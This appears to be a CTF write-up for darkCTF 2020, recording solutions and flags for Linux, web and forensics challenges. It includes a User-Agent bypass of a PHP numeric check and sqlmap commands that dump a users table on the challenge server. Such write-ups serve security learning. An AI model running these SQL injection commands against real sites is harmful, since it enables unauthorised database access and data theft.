








## Misc

### sanity_check


We got our first flag from Discord


**Flag: darkCTF{w3lc0me_t0_darkCTf_h4v3_fUn}**

## Linux
### linux starter


Okay lets fire up the terminal

```shell
root@*****:/home/z3n# ssh wolfie@linuxstarter.darkarmy.xyz -p 8001                                                  
The authenticity of host '[linuxstarter.darkarmy.xyz]:8001 ([52.66.238.72]:8001)' can't be established.                 
ECDSA key fingerprint is SHA256:c89dVKmOwWcuk3nhpaDFytMNR3U8Ph44wwIjTm8VECY.                                            
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes                                                
Warning: Permanently added '[linuxstarter.darkarmy.xyz]:8001,[52.66.238.72]:8001' (ECDSA) to the list of known hosts.   
Password: wolfie
wolfie@9ad161dbc9ce:~$
wolfie@9ad161dbc9ce:~$ ls
bin  imp                                                                                                                
wolfie@9ad161dbc9ce:~$ cd imp/
wolfie@9ad161dbc9ce:~/imp$ ls
flag.txt                                                                                                                
wolfie@9ad161dbc9ce:~/imp$ cat flag.txt                                                                                 
darkCTF{h0pe_y0u_used_intended_w4y}                                                                                     
```
**Flag: darkCTF{h0pe_y0u_used_intended_w4y}**

## Web
### Source


They gave us a source File:
```php
<html>
    <head>
        <title>SOURCE</title>
        <style>
            #main {
    height: 100vh;
}
        </style>
    </head>
    <body><center>
<link rel="stylesheet" href="https://www.w3schools.com/w3css/4/w3.css">
<?php
$web = $_SERVER['HTTP_USER_AGENT'];
if (is_numeric($web)){
      if (strlen($web) < 4){
          if ($web > 10000){
                 echo ('<div class="w3-panel w3-green"><h3>Correct</h3>
  <p>darkCTF{}</p></div>');
          } else {
                 echo ('<div class="w3-panel w3-red"><h3>Wrong!</h3>
  <p>Ohhhhh!!! Very Close  </p></div>');
          }
      } else {
             echo ('<div class="w3-panel w3-red"><h3>Wrong!</h3>
  <p>Nice!!! Near But Far</p></div>');
      }
} else {
    echo ('<div class="w3-panel w3-red"><h3>Wrong!</h3>
  <p>Ahhhhh!!! Try Not Easy</p></div>');
}
?>
</center>
<!-- Source is helpful -->
    </body>
</html>
```
and for the flag we need to validate:
```php
$web = $_SERVER['HTTP_USER_AGENT'];
if (is_numeric($web)){
      if (strlen($web) < 4){
          if ($web > 10000){
                 echo ('<div class="w3-panel w3-green"><h3>Correct</h3>
  <p>darkCTF{}</p></div>');
```
from a google search I found out you can pass '9e9' as User-Agent, which is a numeric, has only length of 3, and its equal to 9000000000 which is obviously more than 10000.
I edited the user-agent to '9e9 'and sent a new request from my firefox and got the flag.


**Flag: darkCTF{changeing_http_user_agent_is_easy}**


### Apache Logs


From the logs we could see some SQLi payloads
after URL Decoding;


Then I used cyberchef to decode from decimal to ascii


**Flag: DarkCTF{5ql_1nj3ct10n}**


### Simple_SQL


I visted the website and from the source code they mentioned to use 'Try id as parameter':
```html
<!DOCTYPE html>
<html>
<head>
<title>Simple SQL</title>
<style>
</style>
</head>
<body bgcolor=black>
<center><font color=red class=title>Welcome Players To My Safe House </font></center> <br>
<br><!-- Try id as parameter  --> 
</body>
</html>
```
Let's start from 1


from the 9th entry we got the flag

**Flag: darkCTF{it_is_very_easy_to_find}**

### So_Simple
  
Like previous challenge they gave a clue 'Try id as parameter'.
Okay, I was able to produce a sql error in /?id='
Lets try with SQLi. They mentioned 'You may get flag manually'. I was lazy and used SQLMap, maybe this is not the intented way to solve.
Here is the commands I used:
```shell
sqlmap -u http://web.darkarmy.xyz:30001/?id=8 --dbs
sqlmap -u http://web.darkarmy.xyz:30001/?id=8 --tables -D id14831952_security
sqlmap -u http://web.darkarmy.xyz:30001/?id=8 --columns -D id14831952_security -T users
sqlmap -u http://web.darkarmy.xyz:30001/?id=8 --dump -D id14831952_security -T users
```
we got the flag from users table  
  
**Flag: darkCTF{uniqu3_ide4_t0_find_fl4g}**

## Forensics
### Wolfie's Contact
  
There is a attached file: wolfie_evidence.rar. It contains an E01 file.  
What's a E01 File?
> The E01 (Encase Image File Format) file keeps backup of various types of acquired digital evidences that includes disk imaging, storing of logical files, etc

okay, we have to do some digging on this file
```bash
root@z3n:/home/z3n/CTF/darkCTF_2020/forensics# mkdir /mnt/ewf
root@z3n:/home/z3n/CTF/darkCTF_2020/forensics# ewfmount wolfie_evidence.E01 /mnt/ewf
root@z3n:/home/z3n/CTF/darkCTF_2020/forensics# cd /mnt/ewf
root@z3n:/mnt/ewf# ls
ewf1
root@z3n:/mnt/ewf# mkdir /mnt/windows_mount
root@z3n:/mnt/ewf# mount -o loop,ro,show_sys_files,streams_interface=windows /mnt/ewf/ewf1 /mnt/windows_mount
root@z3n:/mnt/ewf# cd /mnt/windows_mount
root@z3n:/mnt/windows_mount# cd contacts
root@z3n:/mnt/windows_mount/contacts# ls -la
```
  
I realized the flags are splitted in Notes section in each contact.

```bash
root@z3n:/mnt/windows_mount/contacts# cat * | grep "Notes"
```  


**Flag: darkCTF{C0ntacts_4re_1mp0rtant}**

Resource: https://digital-forensics.sans.org/media/sift_cheat_sheet.pdf

<!--
ToDo: add Official and Community Writeup links
-->
